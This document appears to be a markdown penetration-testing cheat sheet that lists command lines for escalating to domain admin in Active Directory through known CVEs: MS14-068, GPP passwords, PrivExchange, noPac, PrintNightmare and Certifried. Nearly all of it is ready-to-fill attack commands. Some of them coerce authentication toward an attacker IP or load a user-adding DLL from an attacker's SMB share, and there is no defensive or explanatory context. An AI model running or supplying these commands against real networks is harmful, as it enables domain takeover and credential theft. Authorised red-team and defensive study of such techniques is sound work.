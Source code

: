 # Know vulnerabilities authenticated

## MS14-068 >>> PTT >>> Domain admin || Admin
- `findSMB2UPTime.py <ip>`
  - `ms14-068.py -u <user>@<domain> -p <password> -s <user_sid> -d <dc_fqdn>`
  - `msf> use auxiliary/admin/kerberos/ms14_068_kerberos_checksum`
  - `goldenPac.py -dc-ip <dc_ip> <domain>/<user>:<password>@target`

## GPP MS14-025 >>> Domain admin
- `msf> use auxiliary/scanner/smb/smb_enum_gpp`
- `findstr /S /I cpassword \\<domain_fqdn>\sysvol\<domain_fqdn>\policies\*.xml`
- `Get-GPPPassword.py <domain>/<user>:<password>@<dc_fqdn>`

## PrivExchange (CVE-2019-0724, CVE-2019-0686) >>> HTTP Coerce >>> Domain admin || Admin
- `privexchange.py -ah <attacker_ip> <exchange_host> -u <user> -d <domain> -p <password>`

## noPac (CVE-2021-42287, CVE-2021-42278) >>> PTT >>> DCSYNC >>> Domain admin
- `nxc smb <ip> -u 'user' -p 'pass' -M nopac #scan`
- `noPac.exe -domain <domain> -user <user> -pass <password> /dc <dc_fqdn> /mAccount <machine_account> /mPassword <machine_password> /service cifs /ptt`

## PrintNightmare (CVE-2021-1675, CVE-2021-34527) >>> Admin
- `nxc smb <ip> -u 'user' -p 'pass' -M printnightmare #scan`
- `printnightmare.py -dll '\\<attacker_ip>\smb\add_user.dll' '<user>:<password>@<ip>'`

## Certifried (CVE-2022-26923) >>> PTT >>> DCSYNC >>> Domain admin
- Create account
  - `certipy account create -u <user>@<domain> -p '<password>' -user 'certifriedpc' -pass 'certifriedpass' -dns '<fqdn_dc>'`
- Request
  - `certipy req -u 'certifriedpc$'@<domain> -p 'certifriedpass' -target <ca_fqdn> -ca <ca_name> -template Machine`
- Authentication
  - `certipy auth -pfx <pfx_file> -username '<dc>$' -domain <domain> -dc-ip <dc_ip>`